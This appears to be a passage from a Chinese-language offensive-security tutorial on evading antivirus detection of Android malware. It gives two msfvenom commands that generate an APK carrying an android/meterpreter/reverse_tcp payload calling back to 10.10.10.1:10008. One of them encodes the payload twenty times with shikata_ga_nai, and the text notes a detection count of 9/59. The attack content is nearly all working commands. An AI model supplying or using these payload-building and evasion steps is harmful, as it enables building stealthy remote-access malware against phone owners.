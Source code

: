 虽然这个是 x86 的，但是也能兼容在 APK 中，编码一次

```bash
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -e x86/shikata_ga_nai R > black_1.apk
```

[![](assets/1701606948-7f776da58a3adee3b52320ebac418628.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102118-87dbbdc0-664a-1.png)  
  
现在是 9/59  
  
[![](assets/1701606948-281ebb43a9bd72b6543a0b998fdc780c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102128-8d7e55b2-664a-1.png)  
  
编码 20 次

```bash
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -e x86/shikata_ga_nai -i 20 R > black_2.apk
```
